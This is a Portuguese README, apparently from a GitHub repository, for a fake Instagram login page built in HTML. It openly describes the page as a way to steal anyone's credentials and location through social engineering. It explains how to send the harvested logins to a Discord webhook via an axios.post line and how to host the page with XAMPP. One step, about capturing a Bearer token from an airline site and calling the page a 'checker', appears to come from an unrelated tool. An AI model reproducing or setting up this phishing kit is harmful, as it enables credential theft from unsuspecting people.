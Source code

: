 # 📷 Tela Fake Instagram

A **Tela Fake do Instagram** nada mais seria **um site identico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros** !

## 💾 Como recebo as informações ?

- **Para receber o login, senha & outros coletado pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida.` Exemplo**:
  - `const response = await axios.post('https://discord.com/api/webhooks/exemplo/1nsaneqy', data);` `(Webhook Fictícia)`
  - **Este código acima poderá ser encontrado na linha ``258``**.

## 🖥 Consigo testar em minha máquina local ?

Claro ! Para testar a **Tela Fake** em seu computador, basta seguir esses processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)

2. Após a instalação, vá até o local aonde o XAMPP foi instalado

3. Dentro da pasta do XAMPP, procure por "htdocs".

4. Apague todo o conteúdo dentro, e cole a `index.html`

5. Abra a `index.html` com o seu Bloco de Notas ou etc. `(Troque a webhook)`

6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`

7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/)

8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!
